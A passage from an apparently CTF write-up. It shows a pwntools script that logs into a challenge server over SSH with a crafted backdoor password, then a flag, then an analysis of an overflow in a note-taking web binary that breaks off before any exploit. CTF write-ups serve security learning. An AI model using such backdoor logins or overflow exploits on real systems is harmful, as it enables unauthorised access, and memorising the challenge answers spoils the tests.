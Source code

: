 ```c
        v10 -= 8;
      while ( v10 );
      return result;
    }
  }
```
This is the logic right above. When the length of the password is 0x64 or more, you can see that the authentication is performed by comparing the 8 bytes (excluding null bytes) that follow if they are the same. Through this backdoor logic, you can log in as `sshuser`.

```py
from pwn import *

context.log_level = 'debug'

passwd = b'A'*0x64 + b'\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf'

# passwd = b'A' * 0x64

r = ssh(host='34.107.71.117', user='sshuser', password=passwd, port=31689, raw=True)

print(r['cat flag.txt'])
```
{{< admonition note "flag" true >}}
`ctf{ba1e7756b2a842641357e840b47a477924b8deb0078e715754247453abb587be}`
{{< /admonition >}}

## super-notes(19 solves)
{{< admonition info "Challenge Description" false >}}
Here's my note taking app! If you manage to crash the application make sure to wait 2-3minutes for it to restart. You don't have to restart the task.
{{< /admonition >}}

### Analysis
This challenge was a Web + Pwnable challenge and took the longest to solve.
The binary was stripped and statically compiled, so it took a long time to analyze.

However, because the vulnerability was simple, it didn't take long to find it.

There was a part that added notes written in binary to an HTML file, and as I continued to add notes, the contents of the notes continued to be added to the HTML file, causing an overflow.

However, the size of the content that could be added to a note was limited to 0x20, and it was difficult to perform ROP with only the content of the note.

### Solve
There was also one more obstacle: when sending an HTTP request, bytes like null bytes or \x2b were all url-encoded, making it difficult to write the payload. I struggled a lot here. However, if you look closely at the binary again, there was logic to replace these bytes.

```c
for ( j = 0; j < v6; ++j )
      {
        if ( *(_BYTE *)(*(_QWORD *)(qword_4D4578 + 8LL * i) + j) == 0x2B )
        {
          *(_BYTE *)(*(_QWORD *)(qword_4D4578 + 8LL * i) + j) = ' ';
        }
        else if ( *(_BYTE *)(*(_QWORD *)(qword_4D4578 + 8LL * i) + j) == '0' )
        {
          *(_BYTE *)(*(_QWORD *)(qword_4D4578 + 8LL * i) + j) = 0;
        }
      }
```
